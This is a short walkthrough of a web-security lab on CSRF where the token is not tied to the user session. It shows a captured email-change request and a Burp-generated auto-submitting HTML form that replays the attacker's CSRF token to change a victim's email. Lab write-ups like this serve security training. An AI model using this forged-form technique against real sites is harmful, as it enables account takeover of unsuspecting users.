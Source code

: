 # Lab: CSRF where token is not tied to user session

- There are two sets of credentials.
- There is a functionality for changing email.
- There is a defence mechanism for `CSRF` attack that is using `CSRF` token.

```
POST /my-account/change-email HTTP/1.1
Host: acf71f0c1f4aa2c4c05f0817002f009d.web-security-academy.net
Cookie: session=aIamuschJeB99jIeencml87kMzhBXVXr
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://acf71f0c1f4aa2c4c05f0817002f009d.web-security-academy.net
Referer: https://acf71f0c1f4aa2c4c05f0817002f009d.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=test%40test.com&csrf=MAmaJeaqokx2Q3oVLNe7Xjwd5Zhr1U3w
```

- `CSRF` token for `wiener` (attacker) - `ficnp7UUj454tCwZRH0TEeeJGea9Qy22`.
- Login as `carlos` in a private window.
- Generate `CSRF` PoC with `wiener`'s token.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac001f8f1ff6bcd7c05e27fb0026009a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="ficnp7UUj454tCwZRH0TEeeJGea9Qy22" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **NOTE** - If `wiener` has already used his token, the attack will fail.